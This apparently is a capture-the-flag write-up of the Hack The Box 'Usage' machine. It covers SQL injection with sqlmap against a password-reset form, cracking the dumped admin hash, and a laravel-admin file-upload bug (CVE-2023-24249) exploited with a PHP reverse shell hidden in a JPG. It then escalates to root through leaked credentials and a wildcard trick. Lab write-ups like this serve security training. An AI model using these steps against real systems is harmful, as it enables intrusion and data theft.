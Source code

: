 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Hack The Box - Usage
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

#### Nmap Results

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/262a3e3d-d622-4ddb-943c-a25262dd15c4)


I add usage to `/etc/hosts` with the corresponding ip address given. Then navigate to `http://usage.htb`

```
echo "10.10.11.18   usage.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e3dd36f2-b62a-4418-8dbb-aa516a39f3ec)

#### Subdomain Enumaration

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.usage.htb" -u http://usage.htb -fs 154
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a9118ccd-eaae-48f4-bc67-bffb955466e4)

and I found `admin.usage.htb` and added to `/etc/hosts`

```
echo "10.10.11.18    admin.usage.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e014a343-d0b3-4af0-9a31-e0084c89cbc0)


#### Whatweb

```
whatweb 10.10.11.18
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a5c0fe04-dd17-4b10-8241-d93da4561a7b)

I Identified that this website is built using the Laravel framework

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel



### User Flag

After checking out the Password Reset Option and finding it interesting, I fired up Burp Suite. I captured the POST request, as shown below:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/d1255c2a-589d-41ee-b75e-c9a714d9a87d)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/58a49c54-5fde-4fd4-8d09-89e53c03f078)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/967606a2-a82a-4ead-beb1-5d8cedd71825)


I copied the POST request to a text file, which I named `request.txt`

```
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6IkVMOEV1aUo4VjFHSEw3VEIzeERyRVE9PSIsInZhbHVlIjoiR3R4aVJxRWxMakUvNE1oVkQ0SS9DR3Q1T3FBTnZvS2JTY3R3dlFnZEJ2Z2NhaUp2V0FKTGtJSVdUS2VnK3crSlNrUEFnS2NQMXBBQllrWWJtYmdMR0w1SzdxR2dGY3lsT1BHeVRGNXp3bEttWUNRNmRBSkk4RXkxS0xYK1pOb0wiLCJtYWMiOiJlMzkyYTY1YzJjOGQ2MDdiNWI3MTRiZGIxYzk2N2FlMzNiYzFlNjZiZjk4NWE4MDkyYWE3NjgxMGI5NTMxMjgyIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjUxUE5tOW5TYlAxd0FFQ3p2YjhEaXc9PSIsInZhbHVlIjoiTGl0Y3hFZU81Y2F2anNXcXNXa3pVd0RwNHcvYjMzbHBSWTlISW80VjZBSzVjTTZDd3FKVkhiNnhPdDVDejNYK2RVNDcvSERMOGc2dzNFMHpycTBSeGZSemk2TEZyZk5QWDE2N05YM21GcWFDcHJRSjVGSTRFajVhSTBOR0IvOTEiLCJtYWMiOiJiYzYwMDUyMGQzMTk2ODM2ZDkxMTI1NjhmYWFmYmU3YjgxZjMzMjUzZGExYWE1YTQ0MTA1NGI4NjMwYmFhMDU4IiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=jElJgEoOoONVCfBoDfa67TPzd6VxBk4o43ObgKlY&email=1*
```

Now, let's fire up SQLMap.

```
sqlmap -r request.txt --level 5 --risk 3 --batch
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6b6b64cc-60a2-4095-a6e5-f0497d7f1e39)


```
sqlmap -r request.txt --level 5 --risk 3 --batch --dbs
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/006a9509-9d5c-4321-8e38-d29e23b558c2)

```
sqlmap -r request.txt --level 5 --risk 3 --batch -D usage_blog --tables
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/5d27c0aa-7d0d-46e0-802b-bf7ef31ba846)

```
sqlmap -r request.txt --level 5 --risk 3 --batch -D usage_blog -T admin_users --columns
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/3b7f3015-a002-4657-9b82-3399ca75d385)

```
sqlmap -r request.txt --level 5 --risk 3 --batch -D usage_blog -T admin_users -C username,password --dump
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b787f27b-9d1d-4521-9a9b-31646c38cc2a)

So I copied the hash and saved it to `pass.txt`

```
echo "$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2" > pass.txt
```

let's use john to crack it.

```
john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/32720f6c-00e4-4828-9027-4fd3a30975fe)

and I used these credntials to login to admin portal (`admin : whatever1`)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/2de43c41-5f44-4f0d-a629-9f383f6c0f2a)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/92ee756b-5372-43ea-9fd9-a6fd3a365377)

Search for the latest vulnerabilities and find a warning about laravel-admin having an arbitrary file upload vulnerability (CVE-2023-24249). The affected version number is 1.8.19, and the system version number is 1.8.18. It should be affected,  and finally found this article:

https://flyd.uk/post/cve-2023-24249/

Let's prepare the webshell. Here we use kali's php shell file locate at : `/usr/share/webshells/php/php-reverse-shell.php`, modified the IP (tun0) and port (4444) information, and then use 010editor to create a picture horse.

```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

```
nano php-reverse-shell.php
```
![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/734ecf2c-79e8-4dee-bb66-9a2f946162ac)

Now let's download the 010editor : https://www.sweetscape.com/download/010editor/

Let's extract and run the 010editor

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/434e87e4-fcfc-40a7-8a64-c32d8d051d7a)

then i went to `http://admin.usage.htb` and move to `administrator settings` and i have downlod the admin image like below:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/7d869bdc-9536-44a5-961b-98f9bea085b3)

Then I open that image from 010editor ( Open File ---> select the image file)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/83b1f9f2-ac2f-48bf-b489-3ab63000899a)

then In that image, I moved to the end of the header and paste the selected php-reverse-shell code:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/467e8d46-bc20-4c7e-960c-86d23805657e)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/37963562-1712-46d6-b2f0-ea63fdf1043e)

then saved the file as `shell.jpg`

#### Initial Foothold

let's create a netcat listner:

```
nc -nlvp 4444
```


Then I fired up the burp suite and intersept the process of uploading `shell.jpg`.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/21fba85e-5d9e-4ac3-99fb-5f3634c0f5cd)

so now we can change the filename to `shell.jpg.php` and forward the requests:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/c097dc56-59e4-418a-8754-6c82470cc72c)

so we got the reverse shell, so let's get the `user.txt`

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/c6e15823-278a-462d-995e-c066e8afdfac)


### Privilege Escalation

I was searching all the options to escalate privileges, but I couldn’t find anything. So, I tried listing all users on the system.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b9c4eebf-9447-4198-a38e-00e546ce46ce)

I realize I need to locate Xander’s credentials, but how can I do it? And then, I stumbled upon a file (.monitrc) that contained Xander’s credentials. 

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/fde58e94-ec57-4192-a182-c0753dd46f7d)

```
ssh xander@usage.htb
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/2f6cb420-9aba-4621-a341-8d8da4d049da)


### root.txt

```
sudo -l
```
![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6053ec59-0bee-4258-9bbb-6bba266e3886)

Since this is custom software, there’s no way to attack it using GTFOBins. However, we can utilize the strings command to read binary files.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/28b66857-bd31-4fda-b78e-9d183ca41d6e)

Let's use wildcards spare tricks: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/cc9d3ee9-1a98-49be-8ade-31d10f5936fa)

so we able to get the `root.txt`.  so let's use same method to get root shell

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/02c2b633-4d9d-4f35-8e72-2a8f0b39b9d1)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/53067f8a-9f73-45ed-a7fe-5a2b6fbed1a4)

After creating the `id_rsa` file and granting the required privileges with `chmod 600 id_rsa`, I used SSH with the `-i` option to specify the private key and connect to the server

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/9d66bb4d-2ce3-4b97-8177-0ad19b274333)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6bdb1f90-c4e3-4897-a01e-d0c4d1212635)

BOOM !!! :D
